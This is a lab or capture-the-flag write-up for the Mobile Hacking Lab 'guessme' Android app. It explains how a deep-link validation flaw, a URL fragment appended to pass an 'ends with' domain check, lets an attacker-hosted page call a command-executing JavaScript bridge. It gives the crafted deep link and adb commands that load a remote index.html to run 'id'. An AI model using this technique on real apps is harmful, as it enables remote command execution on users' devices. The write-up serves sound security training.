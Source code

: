 # Analysis
1. In `AndroidManifest.xml` we can see activity that process the DeepLink, the scheme and host.
![AndroidManifest](images/androidmanifest.png)

2. Class `WebviewActivity` is do setup the `webView`, it's enabled the javascript and add javascript interface, then call `loadAssetIndex` and `handledDeepLink`.
![WebviewActivity](images/WebviewActivity.png)

3. The JavaScript Interface allows us to call Java functions from within JavaScript that is loaded in the WebView by using `AndroidBridge`.
![javascript interface](images/MyJavaScriptInterface.png)

4. The function `loadAssetIndex` is just load the `index.html` from assets inside it's self.
![loadAssetIndex](images/loadassets.png)

5. The function `handleDeepLink` is check whether the Uri provided from `Intent` is valid or not using function `isValidDeepLink`, if the uri is not valid, the code will call `loadAssetIndex`, if it's valid, the code will call `loadDeepLink`.
![handleDeepLink](images/handleDeepLink.png)

6. The `isValidDeepLink` function only verifies that the url query parameter ends with "mobilehackinglab.com". However, this check is flawed because it does not account for URL fragments (i.e., the part after #). URL fragments are never sent to the server and are ignored by most URL parsers when determining the domain.
![valid deeplink](images/isValidDeepLink.png)

7. And then function `loadDeepLink` will get url from DeepLink query parameter `url` and load it.
![load deep link](images/loadDeepLink.png)

8. Function `getTime` is do command execution based on parameter that provided inside javascript at `index.html` that do call `AndroidBridge.getTime("<malicioud command>")`
![getTime](images/vuln%20code.png)

9. Based on our analysis, we need to craft DeepLink to load our malicious `index.html` that call `AndroidBridge.getTime` with malicious command, and serve the `index.html` so we can used the url as value for DeepLink parameter `url`

# Exploitation
1. Run the app, and icon inside red box is the trigger to load `index.html` inside it's assets.
![trigger webview activity](images/webviewactivity%20in%20app%20trigger.png)
![load index.html](images/in%20app%20webview.png)

2. We used `index.html` inside assets the apps as based on our malicious `index.html`.
![asset index.html](images/asset%20indexhtml.png)

3. Modified the execution of `index.html` to get the malicious command from query parameter `cmd`
![malicious index.html](images/malicious%20index%20html.png)

4. Serve our `index.html`
![start web server](images/start%20web%20server.png)

5. Crafting the DeepLink.

We can craft a DeepLink where the actual domain is an attacker-controlled server (e.g., `http://ip:port/index.html?cmd=maliciousCmd`), and we append `#mobilehackinglab.com` at the end of the URL to pass the validation. When the app processes this DeepLink, it will load the attacker-controlled index.html, allowing JavaScript within the page to call AndroidBridge.getTime() with a malicious command.

```url
mhl://mobilehackinglab?url=http://ip:port/index.html?cmd=maliciousCmd#mobilehackinglab.com packagename
```

6. We need to url encoded the value of parameter `url`
```sh
# Before
am start -W -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http://192.168.188.200:8001/index.html?cmd=id#mobilehackinglab.com"
```
```sh
# After
am start -W -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http%3A%2F%2F192.168.188.200%3A8001%2Findex.html%3Fcmd%3Did%23mobilehackinglab.com" com.mobilehackinglab.guessme
```

7. Run the command inside adb shell and the app will load our malicious `index.html`
![run payload](images/run%20command%20intent.png)

8. The app will render and display the output of `AndroidBridge.getTime`, which during execution will appear as `AndroidBridge.getTime("id")`.
![RCE output](images/rce.png)